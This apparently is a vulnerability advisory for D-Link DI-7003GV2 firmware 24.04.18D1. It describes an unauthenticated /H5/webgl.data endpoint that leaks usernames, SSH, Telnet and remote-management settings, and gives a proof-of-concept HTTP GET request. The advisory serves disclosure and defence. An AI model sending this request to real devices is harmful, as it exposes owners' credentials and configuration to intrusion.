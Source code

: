 # Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ：http://www.dlink.com.cn/techsupport/download.ashx?file=7828

# Affected version

DI-7003GV2-24.04.18D1 R(68125)

# Vulnerability description

The D-Link DI-7003GV2 firmware version 24.04.18D1 contains an information disclosure vulnerability in the `/H5/webgl.data` endpoint. This unauthenticated interface allows remote attackers to retrieve sensitive device configuration information, including HTTP ports, usernames, SSH and Telnet settings, remote management configurations, and more.
# Vulnerability details

The handling function for `H5/webgl.data` interface is `sub_41F0FC`.

![图 0](img/c24fb97b28b644441d3b9f4be7c9ae9e7ff83932fa9acdc90133f21fe4f7d409.png)  

`sub_41F0FC` function gets the parameter table from `off_682A00`, reads sensitive information from the device and returns it to the user.

![图 1](img/9697b246b3a2980f5ee5f20500aa4bae914839b071cc1629b59fb90aaa875a7e.png)  

![图 2](img/865a0b35c3d67a3cb6a6d7332719ae5c79fdad4e23d80c382f1aa8cce545de8c.png)  


# Poc

```http
GET /H5/webgl.data HTTP/1.1
Host: 192.168.140.240
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36 Edg/135.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.140.240/relogin.htm?_312223&_t=41205959
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
If-Modified-Since: Tue, 27 Jun 2023 10:03:04 GMT
Connection: keep-alive
```

![图 3](img/4330e036bd7cf0e6ed8c7fa20796f1f8c292950556940ceb6c8b3c8264bd90c4.png)  
